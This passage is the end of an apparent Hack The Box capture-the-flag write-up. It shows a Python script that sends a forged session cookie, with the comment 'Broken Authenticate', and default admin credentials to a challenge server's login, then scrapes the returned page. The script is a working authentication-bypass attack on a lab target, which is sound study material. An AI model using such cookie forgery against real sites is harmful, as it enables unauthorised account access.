print ("token: "+token)

# -------------------------request_part-------------------------
#url="http://docker.hackthebox.eu:30457/"
#auth_url="http://docker.hackthebox.eu:30457/auth"
url="http://188.166.173.208:30530/"
auth_url="http://188.166.173.208:30530/auth"

data={
    "username": "admin",
    "password": "admin"
}

cookies={
    "session":token
}	#Broken Authenticate

req=requests.session()

post=req.post(auth_url,data)
post_content=post.text.split('<div class="card-body">')[1].split("<br>")[0]
print(post_content,post.url)

req=requests.session()

get=req.get(url,cookies=cookies)
get_content=get.text.split('<div class="card-body">')[1].split("<br>")[0]

print (get_content,get.url)
```

</details>

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

